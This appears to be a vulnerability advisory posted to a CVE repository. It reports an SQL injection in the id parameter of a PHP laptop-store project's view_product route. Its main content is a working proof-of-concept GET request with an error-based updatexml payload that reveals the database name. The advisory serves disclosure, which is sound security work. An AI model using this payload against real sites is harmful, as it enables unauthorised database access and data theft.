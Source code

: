 Online Computer and Laptop Store has a front-end SQL injection vulnerability

version:v2021

download:https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

route:/view_product.php

code analysis：
The id parameter is controllable and can be directly brought into the SQL statement for execution.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/547c0e90-6f57-4b11-97c4-3edd148582f0)

Vulnerability recurrence
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/c27d3643-1280-4a22-b6d4-c9a6176734c8)

POC
```
GET /php-ocls/?p=view_product&id=c4ca4238a0b923820dcc509a6f75849b%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=tva7iboh7p2cghihuds4n016ie
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/46b10ed2-96fe-432e-8d0c-ae6596cfa913)
